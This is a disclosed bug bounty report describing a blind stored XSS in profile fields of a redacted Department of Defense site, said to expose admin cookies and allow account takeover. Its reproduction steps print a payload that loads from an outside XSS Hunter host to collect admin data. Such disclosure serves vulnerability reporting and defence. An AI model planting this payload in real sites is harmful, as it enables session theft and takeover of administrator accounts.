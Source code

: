 # Blind Stored XSS on ███████  leads to takeover admin account

## Report Details
- **Report ID**: 1110243
- **URL**: https://hackerone.com/reports/1110243
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-02-24T15:52:45.485Z
- **Disclosed**: 2021-03-11T20:46:21.071Z

## Reporter
- **Username**: hemantsolo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Hello Team,
I am Hemant Patidar working as a security researcher and I found a bug in your site.
Report of bug is as follows:-

##Vulnerable URL:
https://████████/

##Description:
I have found that various field of the profile page is not properly configured to wipe out HTML tags and Javascript code which leads to store the blind XSS payload in the first name, last name, title etc. and whenever the admin will check the profile the code will fire and we will get response in the XSS Hunter along with the screenshot of the admin side, IP and cookies and other sensitive information.

POC: 
XSS Hunter report attached.

## Impact

An attacker is able to access critical information from the admin panel. The XSS reveals the administrator’s IP address, backend application service, titles of mail chimp customers and internal subscription emails, admin session cookies.
An attacker can exploit the above cookies to access the admin panel.

## System Host(s)
█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. Go to the URL by opening your account: https://█████/█████████
2. Now enter the below payload in the First name, last name, company name and title: data: "><img src="https://hemantsolo.xss.ht>/index.html?c=hemantsolo_xss" />
3. Now wait for some time you will get an XSS fire email via XSS hunter along with the screenshot and other sensitive info.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
